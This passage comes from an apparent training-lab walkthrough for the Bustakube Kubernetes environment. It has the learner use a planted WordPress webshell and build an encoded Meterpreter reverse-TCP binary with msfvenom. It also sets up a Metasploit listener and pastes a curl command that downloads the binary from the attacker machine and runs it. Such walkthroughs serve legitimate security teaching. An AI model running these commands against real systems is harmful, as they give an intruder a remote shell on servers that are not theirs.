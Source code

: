 12. We found a backdoor, left by someone who compromised this Wordpress server already! Check it out by browsing to: <http://bustakube-controlplane:31372/backdoor.php>

13. In the "execute command" window, enter `id` and hit the `Enter` key. You'll see what user this backdoor is running as.

14. Hit the browser's back (left arrow) button to get back to the `backdoor.php` URL.

15. Now, let's get a Meterpreter binary running via this backdoor.  Start up a terminal and switch to your home directory:

    ```shell
    cd ~
    ```

16. Next, create a fresh Meterpreter binary.

    ```shell
    msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp \
    LHOST=10.23.58.30 LPORT=4444 -e x86/shikata_ga_nai -o mrsbin -f elf
    ```

17. Now stage a web server in that terminal, hosting the `mrsbin` binary:

    ```shell
    python3 -m http.server 80
    ```

18. Next, start up a new terminal by hitting `Ctrl-Shift-T`.

19. Let's start up Metasploit to receive the Meterpreter connection.  Start a Metasploit console session:

    ```shell
    msfconsole
    ```

20. In the Metasploit console, run these commands to start a listener that's specific to this Meterpreter binary:

    ```ruby
    use exploit/multi/handler
    set payload linux/x86/meterpreter/reverse_tcp
    set LHOST 10.23.58.30
    exploit -j
    ```

21. Now, switch back to your browser, where you'll be telling the webshell to pull down and run the `mrsbin` Meterpreter binary.

22. Copy and paste this text into the "execute command" form item, then hit `Enter`.

    ```shell
    curl -O http://10.23.58.30/K8S-Exercise/kubectl ; curl -O http://10.23.58.30/mrsbin; chmod u+x mrsbin; ./mrsbin
    ```

23. Notice that the page seems to keep loading forever. That's a good thing – it means that the webshell hasn't finished executing the `mrsbin` program. If it ever does, we'll likely need to restart the `mrsbin` program through the webshell, unless we've found a method of persistence.
